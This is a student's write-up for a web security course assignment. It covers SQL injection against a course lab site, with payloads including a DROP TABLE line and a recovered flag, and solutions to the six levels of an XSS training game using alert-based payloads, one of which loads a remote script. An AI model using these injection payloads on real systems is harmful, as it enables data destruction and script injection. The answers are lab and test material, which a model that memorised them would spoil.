 
Writeup 14 - Web
=====

Name: John
Section: 0102

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: John

## Assignment 14 Writeup

### Part 1 (70 Pts)

The letters S Q L are bolded so I assumed I would be doing some SQL injection. The product pages have an id field in the query string. [http://cornerstoneairlines.co:8080/item?id=0](http://cornerstoneairlines.co:8080/item?id=0)

Putting a single quote in for the id makes the server fail and return a 500 response code, so it appears they are not sanitizing the input and the single quote messed up the sql query.



I tried a bunch of different queries in attempts to get some exciting output but they all failed to produce anything interesting.
[http://cornerstoneairlines.co:8080/item?id=QUERY](http://cornerstoneairlines.co:8080/item?id=QUERY)
```
0'
0' or true --
0' or true limit 1 --
'; select * from items limit 1 --
'; drop table items; --
```

I saw the price had the meme number 1337, so I thought why not try it for the id. It gave me a flag. [http://cornerstoneairlines.co:8080/item?id=1337](http://cornerstoneairlines.co:8080/item?id=1337)

````CMSC38R-{y0U-are_the_5ql_n1nja}````

I assumed this wasn’t the actual flag I was looking for, so I reviewed the slides for some additional hints.

Eventually I tried using the ```'1'='1'``` syntax as provided in the slides and was able to see all the items in the database.

`' or 1='1`

That gave me the same flag I found before.

````CMSC38R-{y0U-are_the_5ql_n1nja}````

I found it interesting that all my statements using sql comments failed. With enough trial and error, I figured out that my browser was removing the spaces after the two dashes, so the comment didn’t work. When I manually encode the last space, it works. ![https://i.imgur.com/uutke0x.png](https://i.imgur.com/uutke0x.png)

### Part 2 (30 Pts)

Level 1

Just putting ``` <script>alert()</script>``` in the input box works as the server renders the query directly into the html.

Level 2

I struggled a bit because I am not that familiar with all the html attributes. The hints made it very clear. Use the onerror attribute of image to execute a script. ``` <img src="/" onerror="alert()"></img>```

Level 3

When generating the html to display the image, the num value isn’t sanitized. ```  `html += "<img` `src='/static/level3/cloud" + num + ".jpg'` `/>";``` `

You can close off the src attribute and insert more attributes. ``` https://xss-game.appspot.com/level3/frame#9' onerror='alert()'```

Level 4

The server side html rendering engine puts the value of the timer variable in the onload method of the image. You can use this to execute additional javascript statements. ``` 1'); alert('3```

Level 5

The server naively writes the value of the ```next``` field from the query into the html. It sets the href of a link to this value. You can pass it ``` javascript:alert()``` and it will execute the alert when the link is clicked.

Level 6

This level was very simple for being the final one. It loads the script from a url provided in the hash or the site’s url. Luckily, I found someone hosting a xss payload with an alert in it.  ``` https://xss-game.appspot.com/level6/frame#//xss.rocks/xss.js```
